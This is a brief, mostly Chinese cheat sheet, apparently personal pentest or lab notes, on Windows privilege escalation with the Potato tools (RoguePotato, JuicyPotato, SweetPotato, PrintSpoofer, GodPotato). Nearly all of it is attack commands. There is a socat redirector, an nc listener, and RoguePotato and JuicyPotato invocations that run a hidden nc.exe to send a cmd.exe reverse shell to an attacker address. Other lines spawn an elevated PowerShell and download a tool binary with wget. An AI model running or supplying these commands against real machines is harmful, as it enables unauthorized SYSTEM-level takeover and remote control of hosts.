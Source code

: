 
神薯
https://github.com/BeichenDream/GodPotato/releases/tag/V1.20

RoguePotato


```
资料
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

github
https://github.com/antonioCoco/RoguePotato?tab=readme-ov-file

juicypotato可以从服务账户提权，服务账户的权限也需要进行检查


kali:
sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.217.247:9999

nc -lvvp 4444

windows:
RoguePotato.exe -r 192.168.45.194 -e "c:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 192.168.45.194 4444" -l 9999

查找CLSID
https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/
RoguePotato.exe -r 192.168.45.185 -c "{6d8ff8df-730d-11d4-bf42-00b0d0118b56}" -e "c:\\Windows\\System32\\spool\\drivers\\color\\nc.exe -e cmd.exe 192.168.45.185 4444" -l 9999
```

roguepotato-and-printspoofer

```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
```

SweetPotato&printspoofer

```
SeImpersonatePrivilege 权限才行
https://github.com/uknowsec/SweetPotato?tab=readme-ov-file

SweetPotato.exe -a whoami



wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

.\PrintSpoofer64.exe -i -c powershell.exe
```

https://github.com/uknowsec/JuicyPotato   推荐这个，webshell版本

```
JuicyPotato_x32.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\spool\drivers\color\nc.exe -a "-e cmd 192.168.45.184 4445"
```
